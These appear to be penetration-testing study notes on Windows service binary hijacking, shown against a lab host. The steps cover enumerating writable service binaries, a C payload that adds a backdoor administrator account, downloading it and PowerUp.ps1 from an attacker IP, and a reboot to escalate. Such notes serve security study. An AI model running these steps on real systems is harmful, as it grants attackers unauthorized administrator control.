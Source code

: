 
> A Windows Service is a long-running background executable or application managed by the Service Control Manager and is similar to the concept of daemons on Unix systems.
> Windows services can be managed by the Services snap-in, PowerShell, or the **sc.exe** command line tool.
> Windows uses the LocalSystem (includes the SIDs of NT AUTHORITY\SYSTEM and BUILTIN\Administrators in its token), Network Service, and Local Service user accounts to run its own services.
> Users or programs creating a service can choose either one of those accounts, a domain user, or a local user.


# Service Binary Hijacking

### Scenario
Software developer creates a program and installs an application as a Windows service.
During the installation, the developer does not secure the permissions of the program, allowing full Read and Write access to all members of the Users group.
As a result, a lower-privileged user could replace the program with a malicious one.
To execute the replaced binary, the user can restart the service or, in case the service is configured to start automatically, reboot the machine.
Once the service is restarted, the malicious binary will be executed with the privileges of the service, such as _LocalSystem_.

Get a list of installed services
```powershell
Get-Service
```

Get a list of all running services
```powershell
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
	Name                      State   PathName
	----                      -----   --------
	Apache2.4                 Running "C:\xampp\apache\bin\httpd.exe" -k runservice
	Appinfo                   Running C:\Windows\system32\svchost.exe -k netsvcs -p
	AppXSvc                   Running C:\Windows\system32\svchost.exe -k wsappx -p
	AudioEndpointBuilder      Running C:\Windows\System32\svchost.exe -k LocalSystemNetworkRestricted -p
	Audiosrv                  Running C:\Windows\System32\svchost.exe -k LocalServiceNetworkRestricted -p
	BFE                       Running C:\Windows\system32\svchost.exe -k LocalServiceNoNetworkFirewall -p
	BITS                      Running C:\Windows\System32\svchost.exe -k netsvcs -p
	BrokerInfrastructure      Running C:\Windows\system32\svchost.exe -k DcomLaunch -p
	...
	mysql                     Running C:\xampp\mysql\bin\mysqld.exe --defaults-file=c:\xampp\mysql\bin\my.ini mysql
	...
```

List of services running *not* in `c:\windows\system32` path
```powershell
PS C:\Users\dave> Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {($_.State -like 'Running') -and ($_.PathName -notlike 'C:\Windows\system32\*')}
	Name          State   PathName
	----          -----   --------
	Apache2.4     Running "C:\xampp\apache\bin\httpd.exe" -k runservice
	BetaService   Running C:\Users\steve\Documents\BetaServ.exe
	edgeupdate    Running "C:\Program Files (x86)\Microsoft\EdgeUpdate\MicrosoftEdgeUpdate.exe" /svc
	LSM           Running
	mysql         Running C:\xampp\mysql\bin\mysqld.exe --defaults-file=c:\xampp\mysql\bin\my.ini mysql
	uhssvc        Running "C:\Program Files\Microsoft Update Health Tools\uhssvc.exe"
	VGAuthService Running "C:\Program Files\VMware\VMware Tools\VMware VGAuth\VGAuthService.exe"
	VMTools       Running "C:\Program Files\VMware\VMware Tools\vmtoolsd.exe"
	WinDefend     Running "C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2301.6-0\MsMpEng.exe"
```

These services/ binaries stand out as they're not running from the System32 path.
- Means they're user-installed and the software developer is in charge of the directory structure as well as permissions of the software

To enumerate the binary's permissions, use **icacls**.

Will output the current principles and their permission mask:

| Mask | Permissions             |
| ---- | ----------------------- |
| F    | Full access             |
| M    | Modify access           |
| RX   | Read and execute access |
| R    | Read-only access        |
| W    | Write-only access       |

```powershell
PS C:\Users\dave> icacls "c:\xampp\apache\bin\httpd.exe"
	c:\xampp\apache\bin\httpd.exe BUILTIN\Administrators:(F)
	                              NT AUTHORITY\SYSTEM:(F)
	                              BUILTIN\Users:(RX)
	                              NT AUTHORITY\Authenticated Users:(RX)


PS C:\Users\dave> icacls "c:\xampp\mysql\bin\mysqld.exe"
	c:\xampp\mysql\bin\mysqld.exe BUILTIN\Administrators:(F)
	                              NT AUTHORITY\SYSTEM:(F)
	                              BUILTIN\Users:(F)
```
	- httpd service - users have read and execute access
	- mysqld service - users have full access - allows us to write & modify (aka replace) the file

Create binary to replace
```c
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user dave2 password123! /add");
  i = system ("net localgroup administrators dave2 /add");
  i = system ("net localgroup 'Remote Desktop Users' dave2 /add");
  
  return 0;
}
```
	- Will add a new user *dave2* with password *password123!*
	- Add new user to Administrators group
	- Will add new user to RDP group

Cross-compile & start a python server
```bash
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe

python3 -m http.server 80
```

Download to victim machine and replace mysqld.exe
```powershell
PS C:\Users\dave> iwr -uri http://192.168.119.3/adduser.exe -Outfile adduser.exe
PS C:\Users\dave> move C:\xampp\mysql\bin\mysqld.exe mysqld.exe
PS C:\Users\dave> move .\adduser.exe C:\xampp\mysql\bin\mysqld.exe
```

As most services are only managed by administrative users, we won't have permission to stop/ restart it.

However, If the service _Startup Type_ is set to "Automatic", we may be able to restart the service by rebooting the machine.
- Check start mode
```powershell
Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'mysql'}
	Name  StartMode
	----  ---------
	mysql Auto
```

- Check user's privileges for reboot
```powershell
PS C:\Users\dave> whoami /priv
	PRIVILEGES INFORMATION
	----------------------
	
	Privilege Name                Description                          State
	============================= ==================================== ========
	SeSecurityPrivilege           Manage auditing and security log     Disabled
	SeShutdownPrivilege           Shut down the system                 Disabled     #<-- NOTE
	SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
	SeUndockPrivilege             Remove computer from docking station Disabled
	SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
	SeTimeZonePrivilege           Change the time zone                 Disabled
```

> The _Disabled_ state only indicates if the privilege is currently enabled for the running process. In our case, it means that whoami has not requested and is not currently using the *SeShutdownPrivilege* privilege.

- Issue a reboot
```powershell
shutdown /r /t 0
```

Can verify it worked by RDP'ing back in as `dave` and check
```powershell
PS C:\Users\dave> Get-LocalGroupMember administrators

	ObjectClass Name                      PrincipalSource
	----------- ----                      ---------------
	User        CLIENTWK220\Administrator Local
	User        CLIENTWK220\BackupAdmin   Local
	User        CLIENTWK220\dave2         Local
	User        CLIENTWK220\daveadmin     Local
	User        CLIENTWK220\offsec        Local
```

Will now need to switch over to new user `dave2` AND start a powershell terminal using Admin privs
```powershell
# Switch to new user
PS C:\Users\dave> runAs /user:dave2 powershell.exe

# Open PowerShell 'As Admin'
PS C:\Windows\system32> Start-Process powershell.exe -Verb runAs
```

## Automated PowerUp.ps1

- Stage PowerUp.ps1 tool
```bash
cp /usr/share/windows-resources/powersploit/Privesc/PowerUp.ps1 .
python3 -m http.server 80
```

- Download on victim and run
```powershell
PS C:\Users\dave> iwr -uri http://192.168.119.3/PowerUp.ps1 -Outfile PowerUp.ps1

PS C:\Users\dave> powershell -ep bypass

PS C:\Users\dave>  . .\PowerUp.ps1

# Display services the current user can modify, such as the service binary or configuration files.
PS C:\Users\dave> Get-ModifiableServiceFile

	...
	ServiceName                     : mysql
	Path                            : C:\xampp\mysql\bin\mysqld.exe --defaults-file=c:\xampp\mysql\bin\my.ini mysql
	ModifiableFile                  : C:\xampp\mysql\bin\mysqld.exe
	ModifiableFilePermissions       : {WriteOwner, Delete, WriteAttributes, Synchronize...}
	ModifiableFileIdentityReference : BUILTIN\Users
	StartName                       : LocalSystem
	AbuseFunction                   : Install-ServiceBinary -Name 'mysql'
	CanRestart                      : False
```


# Service DLL Hijacking


